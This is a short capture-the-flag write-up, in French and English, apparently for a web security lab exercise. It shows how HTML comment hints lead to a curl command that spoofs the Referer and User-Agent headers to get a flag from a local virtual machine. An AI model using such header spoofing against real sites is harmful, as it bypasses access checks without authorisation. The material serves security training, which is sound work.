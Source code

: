 # Exploit 12 - User-agent and Referer headers

sur la page http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f, on peut trouver les commentaires:

```html
<!--
You must come from : "https://www.nsa.gov/".
-->
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

Ils suggèrent d'envoyer une requète au même URL mais armé des headers:

-   `Referer: https://www.nsa.gov/`
-   `User-Agent: ft_bornToSec`

This can be automated with the command:

```bash
curl -s -X GET "http://192.168.56.102/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" -H 'Referer: https://www.nsa.gov/' -H "User-Agent: ft_bornToSec" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```
